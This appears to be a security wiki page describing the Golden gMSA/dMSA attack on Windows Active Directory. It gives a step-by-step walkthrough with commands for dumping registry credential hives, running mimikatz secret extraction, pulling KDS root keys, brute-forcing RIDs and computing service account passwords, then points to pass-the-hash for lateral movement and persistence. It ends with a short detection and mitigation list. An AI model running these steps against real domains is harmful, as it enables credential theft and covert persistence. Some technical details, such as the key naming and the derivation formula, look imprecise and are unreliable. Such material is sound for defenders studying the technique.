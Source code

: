 # Golden gMSA/dMSA Attack (Offline Derivation of Managed Service Account Passwords)

## Overview

Windows Managed Service Accounts (MSA) are special principals designed to run services without the need to manually manage their passwords.
There are two major flavours:

1. **gMSA** – group Managed Service Account – can be used on multiple hosts that are authorised in its `msDS-GroupMSAMembership` attribute.
2. **dMSA** – delegated Managed Service Account – the (preview) successor to gMSA, relying on the same cryptography but allowing more granular delegation scenarios.

For both variants the **password is not stored** on each Domain Controller (DC) like a regular NT-hash. Instead every DC can **derive** the current password on-the-fly from:

* The forest-wide **KDS Root Key** (`KRBTGT\KDS`)  – randomly generated GUID-named secret, replicated to every DC under the `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` container.
* The target account **SID**.
* A per-account **ManagedPasswordID** (GUID) found in the `msDS-ManagedPasswordId` attribute.

The derivation is: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 byte blob finally **base64-encoded** and stored in the `msDS-ManagedPassword` attribute.
No Kerberos traffic or domain interaction is required during normal password usage – a member host derives the password locally as long as it knows the three inputs.

## Golden gMSA / Golden dMSA Attack

If an attacker can obtain all three inputs **offline** they can compute **valid current and future passwords** for **any gMSA/dMSA in the forest** without touching the DC again, bypassing:

* LDAP read auditing
* Password change intervals (they can pre-compute)

This is analogous to a *Golden Ticket* for service accounts.

### Prerequisites

1. **Forest-level compromise** of **one DC** (or Enterprise Admin), or `SYSTEM` access to one of the DCs in the forest.
2. Ability to enumerate service accounts (LDAP read / RID brute-force).
3. .NET ≥ 4.7.2 x64 workstation to run [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) or equivalent code.

### Golden gMSA / dMSA
#### Phase 1 – Extract the KDS Root Key

Dump from any DC (Volume Shadow Copy / raw SAM+SECURITY hives or remote secrets):

```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds 

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
The base64 string labelled `RootKey` (GUID name) is required in later steps.

##### Phase 2 – Enumerate gMSA / dMSA objects

Retrieve at least `sAMAccountName`, `objectSid` and `msDS-ManagedPasswordId`:

```bash
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
  Select sAMAccountName,objectSid,msDS-ManagedPasswordId
  
GoldenGMSA.exe gmsainfo
```

[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implements helper modes:

```bash
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```

##### Phase 3 – Guess / Discover the ManagedPasswordID (when missing)

Some deployments *strip* `msDS-ManagedPasswordId` from ACL-protected reads.
Because the GUID is 128-bit, naive bruteforce is infeasible, but:

1. The first **32 bits = Unix epoch time** of the account creation (minutes resolution).
2. Followed by 96 random bits.

Therefore a **narrow wordlist per account** (± few hours) is realistic.

```bash
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
The tool computes candidate passwords and compares their base64 blob against the real `msDS-ManagedPassword` attribute – the match reveals the correct GUID.

##### Phase 4 – Offline Password Computation & Conversion

Once the ManagedPasswordID is known, the valid password is one command away:

```bash
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
The resulting hashes can be injected with **mimikatz** (`sekurlsa::pth`) or **Rubeus** for Kerberos abuse, enabling stealth **lateral movement** and **persistence**.

## Detection & Mitigation

* Restrict **DC backup and registry hive read** capabilities to Tier-0 administrators.
* Monitor **Directory Services Restore Mode (DSRM)** or **Volume Shadow Copy** creation on DCs.
* Audit reads / changes to `CN=Master Root Keys,…` and `userAccountControl` flags of service accounts.
* Detect unusual **base64 password writes** or sudden service password reuse across hosts.
* Consider converting high-privilege gMSAs to **classic service accounts** with regular random rotations where Tier-0 isolation is not possible.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – reference implementation used in this page.
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – reference implementation used in this page.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket using derived AES keys.

## References

- [Golden dMSA – authentication bypass for delegated Managed Service Accounts](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [gMSA Active Directory Attacks Accounts](https://www.semperis.com/blog/golden-gmsa-attack/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA trust attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

